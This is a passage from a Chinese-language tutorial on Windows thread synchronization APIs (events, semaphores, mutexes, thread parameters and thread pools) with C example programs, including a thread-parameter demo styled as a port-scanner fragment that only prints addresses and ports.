  for (int each = 0; each < THREAD_NUM; each++)
  {
    handle[each] = (HANDLE)_beginthreadex(NULL, 0, ThreadFunction, &each, 0, &ThreadCount);
    printf("线程ID: %d \n", ThreadCount);
  }

  WaitForMultipleObjects(THREAD_NUM, handle, TRUE, INFINITE);

  DeleteCriticalSection(&g_csThreadCode);

  system("pause");
  return 0;
}
```

总的来说，`_beginthreadex`比`CreateThread`更加高级，封装了许多细节，使用起来更方便，特别是对于传递多个参数的情况下，可以更简单地传参。

### 9.2 运用API实现线程同步

Windows 线程同步是指多个线程一同访问共享资源时，为了避免资源的并发访问导致数据的不一致或程序崩溃等问题，需要对线程的访问进行协同和控制，以保证程序的正确性和稳定性。Windows提供了多种线程同步机制，以适应不同的并发编程场景。主要包括以下几种：

 - 事件（Event）：用于不同线程间的信号通知。包括单次通知事件和重复通知事件两种类型。
 - 互斥量（Mutex）：用于控制对共享资源的访问，具有独占性，可避免线程之间对共享资源的非法访问。
 - 临界区（CriticalSection）：和互斥量类似，也用于控制对共享资源的访问，但是是进程内部的，因此比较适用于同一进程中的线程同步控制。
 - 信号量（Semaphore）：用于基于计数器机制，控制并发资源的访问数量。
 - 互锁变量（Interlocked Variable）：用于对变量的并发修改操作控制，可提供一定程度的原子性操作保证。

以上同步机制各有优缺点和适用场景，开发者应根据具体应用场景进行选择和使用。在线程同步的实现过程中，需要注意竞争条件和死锁的处理，以确保程序中的线程能协同工作，共享资源能够正确访问和修改。线程同步是并发编程中的重要基础，对于开发高效、稳定的并发应用至关重要。

#### 9.2.1 CreateEvent

CreateEvent 是`Windows API`提供的用于创建事件对象的函数之一，该函数用于创建一个事件对象，并返回一个表示该事件对象的句柄。可以通过`SetEvent`函数将该事件对象设置为有信号状态，通过`ResetEevent`函数将该事件对象设置为无信号状态。当使用`WaitForSingleObject`或者`WaitForMultipleObjects`函数等待事件对象时，会阻塞线程直到事件状态被置位。对于手动重置事件，需要调用`ResetEvent`函数手动将事件状态置位。

CreateEvent 函数常用于线程同步和进程间通信，在不同线程或者进程之间通知事件状态的改变。例如，某个线程完成了一项任务，需要通知其它等待该任务完成的线程；或者某个进程需要和另一个进程进行协调，需要通知其它进程某个事件的发生等等。

CreateEvent 函数的函数原型如下：
```c
HANDLE CreateEvent(
  LPSECURITY_ATTRIBUTES lpEventAttributes,
  BOOL                  bManualReset,
  BOOL                  bInitialState,
  LPCTSTR               lpName
);
```

参数说明：

 - lpEventAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，指定事件对象的安全描述符和访问权限。通常设为NULL，表示使用默认值。
 - bManualReset：指定事件对象的类型，TRUE表示创建的是手动重置事件，FALSE表示创建的是自动重置事件。
 - bInitialState：指定事件对象的初始状态，TRUE表示将事件对象设为有信号状态，FALSE表示将事件对象设为无信号状态。
 - lpName：指定事件对象的名称，可以为NULL。

CreateEvent 是实现线程同步和进程通信的重要手段之一，应用广泛且易用。在第一章中我们创建的多线程环境可能会出现线程同步的问题，此时使用`Event`事件机制即可很好的解决，首先在初始化时通过`CreateEvent`将事件设置为`False`状态，进入`ThreadFunction`线程时再次通过`SetEvent`释放，以此即可实现线程同步顺序执行的目的。
```c
#include <stdio.h>
#include <process.h>
#include <windows.h>

// 全局资源
long g_nNum = 0;

// 子线程个数
const int THREAD_NUM = 10;

CRITICAL_SECTION  g_csThreadCode;
HANDLE g_hThreadEvent;

unsigned int __stdcall ThreadFunction(void *ptr)
{
  int nThreadNum = *(int *)ptr;

  // 线程函数中触发事件
  SetEvent(g_hThreadEvent);

  // 进入线程锁
  EnterCriticalSection(&g_csThreadCode);
  g_nNum++;
  printf("线程编号: %d --> 全局资源值: %d --> 子线程ID: %d \n", nThreadNum, g_nNum, GetCurrentThreadId());

  // 离开线程锁
  LeaveCriticalSection(&g_csThreadCode);
  return 0;
}

int main(int argc,char * argv[])
{
  unsigned int ThreadCount = 0;
  HANDLE  handle[THREAD_NUM];

  // 初始化自动将事件设置为False
  g_hThreadEvent = CreateEvent(NULL, FALSE, FALSE, NULL);
  InitializeCriticalSection(&g_csThreadCode);

  for (int each = 0; each < THREAD_NUM; each++)
  {
    handle[each] = (HANDLE)_beginthreadex(NULL, 0, ThreadFunction, &each, 0, &ThreadCount);

    // 等待线程事件被触发
    WaitForSingleObject(g_hThreadEvent, INFINITE);
  }

  WaitForMultipleObjects(THREAD_NUM, handle, TRUE, INFINITE);

  // 销毁事件
  CloseHandle(g_hThreadEvent);
  DeleteCriticalSection(&g_csThreadCode);

  system("pause");
  return 0;
}
```
当然了事件对象同样可以实现更为复杂的同步机制，在如下我们在创建对象时，可以设置`non-signaled`状态运行的`auto-reset`模式，当我们设置好我们需要的参数时，可以直接使用`SetEvent(hEvent)`设置事件状态，则会自动执行线程函数。

要创建一个`manual-reset`模式并且初始状态为`not-signaled`的事件对象，需要按照以下步骤：

首先定义一个`SECURITY_ATTRIBUTES`结构体变量，设置其中的参数为`NULL`表示使用默认安全描述符，例如。
```c
SECURITY_ATTRIBUTES sa = {0};
sa.nLength = sizeof(sa);
sa.lpSecurityDescriptor = NULL;
sa.bInheritHandle = FALSE;
```

接着调用`CreateEvent`函数创建事件对象，将`bManualReset`和`bInitialState`参数设置为FALSE，表示创建`manual-reset`模式的事件对象并初始状态为`not-signaled`。例如：
```c
HANDLE hEvent = CreateEvent(
                      &sa,           // 安全属性
                      TRUE,          // Manual-reset模式
                      FALSE,         // Not-signaled 初始状态
                      NULL           // 事件对象名称
                      );
```
这样，我们就创建了一个名为`hEvent`的`manual-reset`模式的事件对象，初始状态为`not-signaled`。可以通过`SetEvent`函数将事件对象设置为`signaled`状态，通过`ResetEvent`函数将事件对象设置为`non-signaled`状态，也可以通过`WaitForSingleObject`或者`WaitForMultipleObjects`函数等待事件对象的状态变化。
```c
#include <windows.h>  
#include <stdio.h>  
#include <process.h>  
#define STR_LEN 100  

// 存储全局字符串
static char str[STR_LEN];

// 设置事件句柄
static HANDLE hEvent;

// 统计字符串中是否存在A
unsigned WINAPI NumberOfA(void *arg)
{
  int cnt = 0;
  // 等待线程对象事件
  WaitForSingleObject(hEvent, INFINITE);
  for (int i = 0; str[i] != 0; i++)
  {
    if (str[i] == 'A')
      cnt++;
  }
  printf("Num of A: %d \n", cnt);
  return 0;
}

// 统计字符串总长度
unsigned WINAPI NumberOfOthers(void *arg)
{
  int cnt = 0;
  // 等待线程对象事件
  WaitForSingleObject(hEvent, INFINITE);
  for (int i = 0; str[i] != 0; i++)
  {
    if (str[i] != 'A')
      cnt++;
  }
  printf("Num of others: %d \n", cnt - 1);
  return 0;
}

int main(int argc, char *argv[])
{
  HANDLE hThread1, hThread2;

  // 以non-signaled创建manual-reset模式的事件对象
  // 该对象创建后不会被立即执行，只有我们设置状态为Signaled时才会继续
  hEvent = CreateEvent(NULL, TRUE, FALSE, NULL);

  hThread1 = (HANDLE)_beginthreadex(NULL, 0, NumberOfA, NULL, 0, NULL);
  hThread2 = (HANDLE)_beginthreadex(NULL, 0, NumberOfOthers, NULL, 0, NULL);

  fputs("Input string: ", stdout);
  fgets(str, STR_LEN, stdin);

  // 字符串读入完毕后，将事件句柄改为signaled状态  
  SetEvent(hEvent);

  WaitForSingleObject(hThread1, INFINITE);
  WaitForSingleObject(hThread2, INFINITE);

  // non-signaled 如果不更改，对象继续停留在signaled
  ResetEvent(hEvent);

  CloseHandle(hEvent);

  system("pause");
  return 0;
}
```

#### 9.2.2 CreateSemaphore

CreateSemaphore 是`Windows API`提供的用于创建信号量的函数之一，用于控制多个线程之间对共享资源的访问数量。该函数常用于创建一个计数信号量对象，并返回一个表示该信号量对象的句柄。可以通过`ReleaseSemaphore`函数将该信号量对象的计数加1，通过`WaitForSingleObject`或者`WaitForMultipleObjects`函数等待信号量对象的计数变成正数以后再将其减1，以实现对共享资源访问数量的控制。

CreateSemaphore 函数常用于实现生产者消费者模型、线程池、任务队列等并发编程场景，用于限制访问共享资源的线程数量。信号量机制更多时候被用于限制资源的数量而不是限制线程的数量，但也可以用来实现一些线程同步场景。

该函数的函数原型如下：
```c
HANDLE CreateSemaphore(
  LPSECURITY_ATTRIBUTES lpSemaphoreAttributes,
  LONG                  lInitialCount,
  LONG                  lMaximumCount,
  LPCTSTR               lpName
);
```

参数说明：

 - lpSemaphoreAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，指定信号量对象的安全描述符和访问权限。通常设为NULL，表示使用默认值。
 - lInitialCount：指定信号量对象的初始计数，表示可以同时访问共享资源的线程数量。
 - lMaximumCount：指定信号量对象的最大计数，表示信号量对象的计数上限。
 - lpName：指定信号量对象的名称，可以为NULL。

总的来说，CreateSemaphore 是实现线程同步和进程通信，控制对共享资源的访问数量的重要手段之一，如下一段演示代码片段则通过此方法解决了线程通过问题，首先调用`CreateSemaphore`初始化时将信号量设置一个最大值，每次进入线程函数内部时，则`ReleaseSemaphore`信号自动加1，如果大于指定的数值则`WaitForSingleObject`等待释放信号.
```c
#include <stdio.h>
#include <process.h>
#include <windows.h>

// 全局资源
long g_nNum = 0;

// 子线程个数
const int THREAD_NUM = 10;

CRITICAL_SECTION  g_csThreadCode;
HANDLE g_hThreadParameter;

unsigned int __stdcall ThreadFunction(void *ptr)
{
  int nThreadNum = *(int *)ptr;

  // 信号量++
  ReleaseSemaphore(g_hThreadParameter, 1, NULL);

  // 进入线程锁
  EnterCriticalSection(&g_csThreadCode);
  g_nNum++;
  printf("线程编号: %d --> 全局资源值: %d --> 子线程ID: %d \n", nThreadNum, g_nNum, GetCurrentThreadId());

  // 离开线程锁
  LeaveCriticalSection(&g_csThreadCode);
  return 0;
}

int main(int argc,char * argv[])
{
  unsigned int ThreadCount = 0;
  HANDLE  handle[THREAD_NUM];

  // 初始化信号量当前0个资源，最大允许1个同时访问
  g_hThreadParameter = CreateSemaphore(NULL, 0, 1, NULL);
  InitializeCriticalSection(&g_csThreadCode);

  for (int each = 0; each < THREAD_NUM; each++)
  {
    handle[each] = (HANDLE)_beginthreadex(NULL, 0, ThreadFunction, &each, 0, &ThreadCount);

    // 等待信号量>0
    WaitForSingleObject(g_hThreadParameter, INFINITE);
  }

  // 关闭信号
  CloseHandle(g_hThreadParameter);

  // 等待所有进程结束
  WaitForMultipleObjects(THREAD_NUM, handle, TRUE, INFINITE);
  DeleteCriticalSection(&g_csThreadCode);

  system("pause");
  return 0;
}
```

如下所示代码片段，是一个应用了两个线程的案例，初始化信号为0，利用信号量值为0时进入`non-signaled`状态，大于0时进入`signaled`状态的特性即可实现线程同步。

执行`WaitForSingleObject(semTwo, INFINITE);`会让线程函数进入类似挂起的状态，当接到`ReleaseSemaphore(semOne, 1, NULL);`才会恢复执行。
```C
#include <windows.h>  
#include <stdio.h>  

static HANDLE semOne,semTwo;
static int num;

// 线程函数A用于接收参书
DWORD WINAPI ReadNumber(LPVOID lpParamter)
{
  int i;
  for (i = 0; i < 5; i++)
  {
    fputs("Input Number: ", stdout);

    // 临界区的开始 signaled状态  
    WaitForSingleObject(semTwo, INFINITE);
    
    scanf("%d", &num);

    // 临界区的结束 non-signaled状态  
    ReleaseSemaphore(semOne, 1, NULL);
  }
  return 0;
}

// 线程函数B: 用户接受参数后完成计算
DWORD WINAPI Check(LPVOID lpParamter)
{
  int sum = 0, i;
  for (i = 0; i < 5; i++)
  {
    // 临界区的开始 non-signaled状态  
    WaitForSingleObject(semOne, INFINITE);
    sum += num;

    // 临界区的结束 signaled状态  
    ReleaseSemaphore(semTwo, 1, NULL);
  }
  printf("The Number IS: %d \n", sum);
  return 0;
}

int main(int argc, char *argv[])
{
  HANDLE hThread1, hThread2;

  // 创建信号量对象,设置为0进入non-signaled状态  
  semOne = CreateSemaphore(NULL, 0, 1, NULL);

  // 创建信号量对象，设置为1进入signaled状态  
  semTwo = CreateSemaphore(NULL, 1, 1, NULL);

  hThread1 = CreateThread(NULL, 0, ReadNumber, NULL, 0, NULL);
  hThread2 = CreateThread(NULL, 0, Check, NULL, 0, NULL);

  // 关闭临界区
  WaitForSingleObject(hThread1, INFINITE);
  WaitForSingleObject(hThread2, INFINITE);

  CloseHandle(semOne);
  CloseHandle(semTwo);

  system("pause");
  return 0;
}
```

#### 9.2.3 CreateMutex

CreateMutex 是Windows API提供的用于创建互斥体对象的函数之一，该函数用于创建一个互斥体对象，并返回一个表示该互斥体对象的句柄。可以通过`WaitForSingleObject`或者`WaitForMultipleObjects`函数等待互斥体对象，以确保只有一个线程能够访问共享资源，其他线程需要等待该线程释放互斥体对象后才能继续访问。当需要释放互斥体对象时，可以调用`ReleaseMutex`函数将其释放。

CreateMutex 函数常用于对共享资源的访问控制，避免多个线程同时访问导致数据不一致的问题。有时候，互斥体也被用于跨进程同步访问共享资源。

该函数的函数原型如下：
```c
HANDLE CreateMutex(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCTSTR               lpName
);
```

参数说明：

 - lpMutexAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，指定互斥体对象的安全描述符和访问权限。通常设为NULL，表示使用默认值。
 - bInitialOwner：指定互斥体的初始状态，TRUE表示将互斥体设置为有所有权的状态，FALSE表示将互斥体设置为没有所有权的状态。
 - lpName：指定互斥体的名称，可以为NULL。

该函数是实现线程同步和进程通信，控制对共享资源的访问的重要手段之一，应用广泛且易用。

如下案例所示，使用互斥锁可以实现单位时间内，只允许一个线程拥有对共享资源的独占权限，从而实现了互不冲突的线程同步。

```c
#include <windows.h>
#include <iostream>

using namespace std;

// 创建互斥锁
HANDLE hMutex = NULL;

// 线程函数
DWORD WINAPI Func(LPVOID lpParamter)
{
  for (int x = 0; x < 10; x++)
  {
    // 请求获得一个互斥锁
    WaitForSingleObject(hMutex, INFINITE);

    cout << "thread func" << endl;

    // 释放互斥锁
    ReleaseMutex(hMutex);
  }
  return 0;
}

int main(int argc,char * argv[])
{
  HANDLE hThread = CreateThread(NULL, 0, Func, NULL, 0, NULL);

  hMutex = CreateMutex(NULL, FALSE, "lyshark");
  CloseHandle(hThread);

  for (int x = 0; x < 10; x++)
  {
    // 请求获得一个互斥锁
    WaitForSingleObject(hMutex, INFINITE);
    cout << "main thread" << endl;
    
    // 释放互斥锁
    ReleaseMutex(hMutex);
  }
  system("pause");
  return 0;
}
```

当然通过互斥锁我们也可以实现赞单位时间内同时同步执行两个线程函数，如下代码所示；
```C
#include <windows.h>
#include <iostream>

using namespace std;

// 创建互斥锁
HANDLE hMutex = NULL;
#define NUM_THREAD 50

// 线程函数1
DWORD WINAPI FuncA(LPVOID lpParamter)
{
  for (int x = 0; x < 10; x++)
  {
    // 请求获得一个互斥锁
    WaitForSingleObject(hMutex, INFINITE);

    cout << "this is thread func A" << endl;

    // 释放互斥锁
    ReleaseMutex(hMutex);
  }
  return 0;
}

// 线程函数2
DWORD WINAPI FuncB(LPVOID lpParamter)
{
  for (int x = 0; x < 10; x++)
  {
    // 请求获得一个互斥锁
    WaitForSingleObject(hMutex, INFINITE);

    cout << "this is thread func B" << endl;

    // 释放互斥锁
    ReleaseMutex(hMutex);
  }
  return 0;
}

int main(int argc, char * argv[])
{

  // 用来存储线程函数的句柄
  HANDLE tHandle[NUM_THREAD];

  // 创建互斥量，此时为signaled状态
  hMutex = CreateMutex(NULL, FALSE, "lyshark");

  for (int x = 0; x < NUM_THREAD; x++)
  {
    if (x % 2)
    {
      tHandle[x] = CreateThread(NULL, 0, FuncA, NULL, 0, NULL);
    }
    else
    {
      tHandle[x] = CreateThread(NULL, 0, FuncB, NULL, 0, NULL);
    }
  }

  // 等待所有线程函数执行完毕
  WaitForMultipleObjects(NUM_THREAD, tHandle, TRUE, INFINITE);
  
  // 销毁互斥对象
  CloseHandle(hMutex);

  system("pause");
  return 0;
}
```

#### 9.2.4 ThreadParameters

在线程环境中，有时候启动新线程时我们需要对不同的线程传入不同的参数，通常实现线程传参的方法有许多，一般可分为使用全局变量，使用结构体，使用类的成员函数等，本节将使用结构体传参，通过创建一个结构体，将需要传递的参数存储在结构体中，并将结构体的指针传递给线程函数。子线程在执行时，可以通过该指针访问结构体中的参数。

对于简单的参数传递而言，线程函数中定义`LPVOID`允许传递一个参数，此时我们只需要在函数中接收并强转`(int)(LPVOID)port`即可获取到一个整数类型的参数，如下是一个简单的端口扫描软件代码片段。
```c
#include <stdio.h>
#include <Windows.h>

// 线程函数接收一个参数
DWORD WINAPI ScanThread(LPVOID port)
{
  // 将参数强制转化为需要的类型
  int Port = (int)(LPVOID)port;
  printf("[+] 端口: %5d \n", port);
  return 1;
}

int main(int argc, char* argv[])
{
  HANDLE handle;

  for (int port = 0; port < 100; port++)
  {
    handle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ScanThread, (LPVOID)port, 0, 0);
  }
  WaitForSingleObject(handle, INFINITE);

  system("pause");
  return 0;
}
```

当然只传递一个参数在多数情况下时不够使用的，而想在线程函数中传递多个参数，则需要传递一个结构指针，通过线程函数内部强转为结构类型后，即可实现取值，如下代码中我们首先定义了一个`THREAD_PARAM`结构体，该结构内有两个成员分别指定扫描主机地址以及端口号，当参数被传递到`ScanThread`线程函数内部时只需要将指针内的数据拷贝到自身线程函数内，即可正确的引用特定的参数。

```c
#include <stdio.h>
#include <windows.h>

typedef struct _THREAD_PARAM
{
  char *HostAddr;             // 扫描主机
  DWORD dwStartPort;          // 端口号
}THREAD_PARAM;

// 这个扫描线程函数
DWORD WINAPI ScanThread(LPVOID lpParam)
{
  // 拷贝传递来的扫描参数
  THREAD_PARAM ScanParam = { 0 };
  MoveMemory(&ScanParam, lpParam, sizeof(THREAD_PARAM));
  printf("地址: %-16s --> 端口: %-5d \n", ScanParam.HostAddr, ScanParam.dwStartPort);
  return 0;
}

int main(int argc, char *argv[])
{
  THREAD_PARAM ThreadParam = { 0 };

  for (int ip = 0; ip < 100; ip++)
  {
    char src_addr[50] = "192.168.1.";
    char sub_addr[10] = {0};
    // int number = atoi(sub_addr);
    
    // 将整数转为字符串
    sprintf(sub_addr, "%d", ip);
    strcat(src_addr, sub_addr);

    // 将拼接好的字符串放到HostAddr
    ThreadParam.HostAddr = src_addr;

    for (DWORD port = 1; port < 10; port++)
    {
      // 指定端口号
      ThreadParam.dwStartPort = port;
      HANDLE hThread = CreateThread(NULL, 0, ScanThread, (LPVOID)&ThreadParam, 0, NULL);
      WaitForSingleObject(hThread, INFINITE);
    }
  }

  system("pause");
  return 0;
}
```

#### 9.2.5 ThreadPool

Windows 线程池是一种异步执行任务的机制，可以将任务提交到线程池中，由线程池自动分配线程执行任务。线程池可以有效地利用系统资源，提高程序的并发能力和性能。`Windows `线程池是`Windows`操作系统提供的一种原生的线程池机制，可以使用`Windows API`函数进行操作。

CreateThreadpoolWork 是`Windows API`提供的用于创建一个工作从池线程中执行的工作对象的函数之一，该函数用于创建一个工作项，并返回一个表示该工作项的指针。可以通过`SubmitThreadpoolWork`函数将该工作项提交到线程池中进行执行。当该工作项完成后，线程池还可以使用回调函数清理函数`TP_FREE_CLEANUP_GROUP`回收资源。

该函数的函数原型如下：
```c
PTP_WORK CreateThreadpoolWork(
  PTP_WORK_CALLBACK  pfnwk,     // 工作项回调函数指针
  PVOID              pv,        // 回调函数的参数指针
  PTP_CALLBACK_ENVIRON pcbe      // 回调函数运行环境
);
```

参数说明：

 - pfnwk：指向工作项回调函数的指针，该函数将在工作线程池中执行。例如：
```c
VOID CALLBACK MyWorkCallback(
    PTP_CALLBACK_INSTANCE Instance,
    PVOID Context, PTP_WORK Work)
{
    // 实现工作项的具体操作
}
```

 - pv：指向回调函数的参数指针，由回调函数进行处理。

 - pcbe：指向`TP_CALLBACK_ENVIRON`结构体的指针，提供了回调函数需要的一些运行环境信息，例如可选的回调函数执行器`TP_CALLBACK_INSTANCE`和回调函数完成后的清理函数`TP_CLEANUP_GROUP`等。如果为NULL，则使用系统提供的默认值。

CreateThreadpoolWork 函数常用于实现线程池中的任务队列，可以将一个具体的任务封装为一个工作项，并提交到线程池中等待执行。该机制可以有效地提高任务的处理速度和效率，减少系统资源开销。但是，需要注意线程池的资源占用问题，合理调优，避免线程泄漏等问题。

CallbackMayRunLong 是`Windows API`提供的调用标记函数之一，该函数用于标记回调函数是否可能耗时较长。如果回调函数不会耗时较长，则无需调用该函数。如果回调函数可能耗时较长，则建议在执行回调函数之前调用该函数对回调函数进行标记，以便线程池进行资源分配和调度等策略。
```c
CallbackMayRunLong函数的函数原型如下：

VOID CallbackMayRunLong(
  PTP_CALLBACK_INSTANCE pci
);
```

参数说明：

 - pci：指向`TP_CALLBACK_INSTANCE`结构体的指针，表示回调函数的执行器，用于提供回调函数的运行环境信息。

SubmitThreadpoolWork 是`Windows API`提供的将工作项提交到线程池中执行的函数之一，该函数用于将工作项提交到线程池中等待被工作者线程执行。线程池中的工作者线程通过`GetQueuedCompletionStatus`函数从工作队列中获取工作项并执行。通过`SubmitThreadpoolWork`和`GetQueuedCompletionStatus`结合使用，可以实现线程池中的任务队列，提高任务处理效率和系统性能。

SubmitThreadpoolWork 函数的函数原型如下：
```c
VOID SubmitThreadpoolWork(
  PTP_WORK pwk
);
```

参数说明：

 - pwk：指向`TP_WORK`结构体的指针，表示要提交到线程池中执行的工作项。

读者需要注意，SubmitThreadpoolWork 函数提交的是工作项而不是回调函数，回调函数是通过事先创建工作项指定的。在使用`SubmitThreadpoolWork`提交工作项时，需要根据具体的业务需求进行合理的设计和实现，避免线程池资源浪费、性能下降、内存泄漏等问题。

WaitForThreadpoolWorkCallbacks 是Windows API提供的等待线程池中工作项完成的函数之一，该函数用于等待线程池中提交的所有工作项被处理完毕。需要注意的是，该函数会阻塞当前线程直到所有工作项处理完毕，因此需要谨慎使用，避免阻塞其它线程的执行。

WaitForThreadpoolWorkCallbacks 函数的函数原型如下：
```c
VOID WaitForThreadpoolWorkCallbacks(
  PTP_WORK pwk,
  BOOL     fCancelPendingCallbacks
);
```

参数说明：

 - pwk：指向TP_WORK结构体的指针，表示要等待完成的工作项。
 - fCancelPendingCallbacks：用于指定是否取消所有待处理的工作项。如果为TRUE，则取消所有待处理的工作项；如果为FALSE，则等待所有待处理的工作项被处理完毕。

要使用`CreateThreadpoolWork()`创建一个线程池很容易实现，读者只需要指定`TaskHandler`线程函数即可，当需要启动线程池时通过调用`SubmitThreadpoolWork`函数提交一组请求即可，如下是一个简单的线程池创建功能实现。
```c
#include <Windows.h>
#include <iostream>
#include <stdlib.h>

unsigned long g_count = 0;

// 线程执行函数
void NTAPI TaskHandler(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  if (CallbackMayRunLong(Instance))
  {
    printf("剩余资源: %d --> 线程ID: %d \n", InterlockedIncrement(&g_count), GetCurrentThreadId());
  }

  Sleep(5000);
  printf("运行子线程 \n");

  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
  }
}

int main(int argc,char *argv)
{
  PTP_WORK workItem = CreateThreadpoolWork(TaskHandler, NULL, NULL);

  for (int x = 0; x < 100; x++)
  {
    // 调用SubmitThreadpoolWork向线程池提交一个请求
    SubmitThreadpoolWork(workItem);
  }

  // 等待线程池调用结束
  WaitForThreadpoolWorkCallbacks(workItem, false);
  CloseThreadpoolWork(workItem);

  system("pause");
  return 0;
}
```

线程池函数同样支持限制线程数，限制线程可以通过调用`SetThreadpoolThreadMinimum()`实现，该函数可以在创建线程池后设置线程池的最小线程数。当线程池中的任务队列中存在待执行的任务，并且当前工作线程的数量小于最小线程数时，线程池将自动创建新的工作线程，以确保待执行任务能够及时得到处理。

以下是函数的原型定义：
```c
VOID WINAPI SetThreadpoolThreadMinimum(
  PTP_POOL ptpp,
  DWORD     cthrdMic
);
```

参数说明：

 - ptpp：指向线程池对象的指针。
 - cthrdMic：线程池中的最小线程数。

线程池也支持分组操作，可通过绑定`TP_CALLBACK_ENVIRON`线程池环境变量实现分组，TP_CALLBACK_ENVIRON是`Windows`线程池`API`的一部分，它是一个环境变量结构体，用于确定要调用的线程池回调函数的环境。

以下是TP_CALLBACK_ENVIRON结构体的定义：
```c
typedef struct _TP_CALLBACK_ENVIRON {
  TP_VERSION                  Version;
  PTP_POOL                    Pool;
  PTP_CLEANUP_GROUP           CleanupGroup;
  PFN_TP_SIMPLE_CALLBACK      CleanupGroupCancelCallback;
  PVOID                       RaceDll;
  struct _ACTIVATION_CONTEXT *ActivationContext;
  PFN_IO_CALLBACK             FinalizationCallback;
  union {
    DWORD Flags;
    struct {
      DWORD LongFunction : 1;
      DWORD Persistent   : 1;
      DWORD Private      : 30;
    } DUMMYSTRUCTNAME;
  } DUMMYUNIONNAME;
} TP_CALLBACK_ENVIRON, *PTP_CALLBACK_ENVIRON;
```

主要成员说明：

 - Version：回调环境的版本，必须为 TP_VERSION。
 - Pool：回调环境所属的线程池对象。
 - CleanupGroup：回调环境所属的清理组对象，用于控制回调的取消和资源管理。
 - CleanupGroupCancelCallback：当清理组取消回调时，所调用的回调函数。
 - RaceDll：保留字段，用于标记已经看过这个环境变量的 DLL。
 - ActivationContext：回调环境的激活上下文，用来保证回调中需要的外部资源正确加载。
 - FinalizationCallback：当回调函数执行完成后调用的函数。
 - Flags：回调环境的标志，用于设置回调函数的属性。

使用`TP_CALLBACK_ENVIRON`结构体，可以在创建线程池回调函数时，配置回调函数的环境和参数，以控制回调函数的执行方式和行为。

例如，可以使用`TP_CALLBACK_ENVIRON`中的`CleanupGroup`和`CleanupGroupCancelCallback`成员，将回调函数添加到清理组中，并在需要时取消回调。又或者在`FinalizationCallback`中执行某些特殊的清理任务，以确保在回调函数执行完毕后释放资源。

```c
#include <Windows.h>
#include <iostream>
#include <stdlib.h>

// 线程执行函数
void NTAPI TaskHandler(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
  }
}

// 单次线程任务
void NTAPI poolThreadFunc(PTP_CALLBACK_INSTANCE Instance, PVOID Context)
{
  printf("执行单次线程任务: %d \n", GetCurrentThreadId());
}

int main(int argc,char *argv)
{
  // 创建线程池
  PTP_POOL pool = CreateThreadpool(NULL);

  // 设置线程池 最小与最大 资源数
  SetThreadpoolThreadMinimum(pool, 1);
  SetThreadpoolThreadMaximum(pool, 100);

  // 初始化线程池环境变量
  TP_CALLBACK_ENVIRON cbe;

  InitializeThreadpoolEnvironment(&cbe);

  // 设置线程池回调的线程池
  SetThreadpoolCallbackPool(&cbe, pool);

  // 创建清理组
  PTP_CLEANUP_GROUP cleanupGroup = CreateThreadpoolCleanupGroup();

  // 为线程池设定清理组
  SetThreadpoolCallbackCleanupGroup(&cbe, cleanupGroup, NULL);

  // 创建线程池
  PTP_WORK pwork = CreateThreadpoolWork((PTP_WORK_CALLBACK)TaskHandler, NULL, &cbe);

  // 循环提交线程工作任务
  for (int x = 0; x < 100; x++)
  {
    SubmitThreadpoolWork(pwork);
  }

  // 提交单次线程任务
  TrySubmitThreadpoolCallback(poolThreadFunc, NULL, &cbe);
  TrySubmitThreadpoolCallback(poolThreadFunc, NULL, &cbe);

  // 等待线程池结束,关闭线程组
  WaitForThreadpoolWorkCallbacks(pwork, false);
  CloseThreadpoolWork(pwork);

  // 关闭清理组
  CloseThreadpoolCleanupGroupMembers(cleanupGroup, false, NULL);
  
  // 销毁线程池环境变量
  DestroyThreadpoolEnvironment(&cbe);

  CloseThreadpool(pool);
  system("pause");
  return 0;
}
```

当读者使用线程池时，同样会遇到线程的同步问题，线程池内的线程函数同样支持互斥锁、信号量、内核事件控制、临界区控制等同步和互斥机制，用于保护共享资源的访问和修改。

这些同步和互斥机制可以用来解决线程间竞争和数据不一致的问题。例如，在线程池中如果有多个工作线程同时访问共享资源，就需要使用互斥锁或临界区控制来确保每个线程对共享资源的使用不会相互干扰，避免出现数据竞争和不一致的情况。

使用这些同步和互斥机制时，应该根据实际场景进行选择和设计。例如，互斥锁适合用于保护少量的共享资源、需要经常访问和更新的场景，而信号量适合用于控制并发访问数量、资源池、生产者消费者模式等场景。同时，需要注意遵循线程安全和同步的原则，以避免死锁、饥饿等问题。

```c
#include <Windows.h>
#include <iostream>
#include <stdlib.h>

unsigned long g_count = 0;

// --------------------------------------------------------------
// 线程池同步-互斥量同步
// --------------------------------------------------------------
void NTAPI TaskHandlerMutex(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  // 锁定资源
  WaitForSingleObject(*(HANDLE *)Context, INFINITE);

  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
    g_count = g_count + 1;
  }

  // 解锁资源
  ReleaseMutexWhenCallbackReturns(Instance, *(HANDLE*)Context);
}

void TestMutex()
{
  // 创建互斥量
  HANDLE hMutex = CreateMutex(NULL, FALSE, NULL);

  PTP_WORK pool = CreateThreadpoolWork((PTP_WORK_CALLBACK)TaskHandlerMutex, &hMutex, NULL);

  for (int i = 0; i < 1000; i++)
  {
    SubmitThreadpoolWork(pool);
  }

  WaitForThreadpoolWorkCallbacks(pool, FALSE);
  CloseThreadpoolWork(pool);
  CloseHandle(hMutex);

  printf("相加后 ---> %d \n", g_count);
}

// --------------------------------------------------------------
// 线程池同步-事件内核对象
// --------------------------------------------------------------
void NTAPI TaskHandlerKern(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  // 锁定资源
  WaitForSingleObject(*(HANDLE *)Context, INFINITE);

  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
    g_count = g_count + 1;
  }

  // 解锁资源
  SetEventWhenCallbackReturns(Instance, *(HANDLE*)Context);
}

void TestKern()
{
